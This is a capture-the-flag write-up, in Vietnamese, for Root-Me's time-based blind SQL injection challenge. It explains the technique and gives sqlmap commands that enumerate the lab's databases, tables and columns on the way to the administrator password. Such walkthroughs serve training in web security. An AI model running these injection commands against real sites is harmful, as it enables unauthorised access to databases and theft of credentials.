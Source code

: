 # SQL injection - Time based 

Point: 45

Be patient

Statement: Retrieve administrator’s password.

Related ressource: [Time-Based Blind SQL Injection using Heavy Queries](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Time%20based%20blind%20SQL%20Injection%20using%20heavy%20queries.pdf?_gl=1*31a6v3*_ga*MTE0NDg5MTA5LjE2Nzk2MzIzMDY.*_ga_SRYSKX09J7*MTY4Mjc0Nzk4OC44MS4xLjE2ODI3NDgwMjAuMC4wLjA.)

# Overview:

Time based SQL injection-là 1 kiểu tấn công blind SQL thường được dùng khi không còn cách nào khác để khai thác cơ sở dữ liệu.Kĩ thuật này gửi 1 truy vấn đến cơ sở dữ liệu, buộc cơ sở dữ liệu phải đợi 1 khoảng thời gian trước khi phản hồi. Và dựa vào thời gian phản hồi ấy hacker có thể xác định được truy vấn đưa ra là đúng hay sai. Thông thường là kiểm tra thứ tự từng kí tự của bảng hay của cột từ đó đạt được tên bảng tên cột và cả data.

Form của challenge

![image](https://user-images.githubusercontent.com/115911041/235286776-993a4abe-07ac-4f5a-b039-5538fd5e6b36.png)

Có 2 phần chính là `Login` và `Member list`. Bài này mình giải bằng 2 cách SQL map và code python.

# Solution:

## SQLmap

Khi ta chuyển sang phần `member` và chọn `admin` thì URL có thay đổi, nên ta có thể khai thác từ tham số đó

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 --dbs`

![image](https://user-images.githubusercontent.com/115911041/235287468-b2ba4c20-07b0-4fff-ae10-adf0d4f50df2.png)

Kết quả cho ra database `public`.Tiếp tục truy cập vào `public`.

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1 --time-sec=3 -D public --tables`

![image](https://user-images.githubusercontent.com/115911041/235288969-3bf14840-e3a8-4e22-a377-6564d30394e2.png)

Ra kết quả có tables `users`. Tiếp tục vào table `users`

`python3 sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1" --time-sec=3 -D public -T users --columns`

![image](https://user-images.githubusercontent.com/115911041/235289845-443aaeab-772f-44a8-8c43-d0676bb7a7aa.png)

Bước cuối chỉ cần lấy data các column nữa là xong




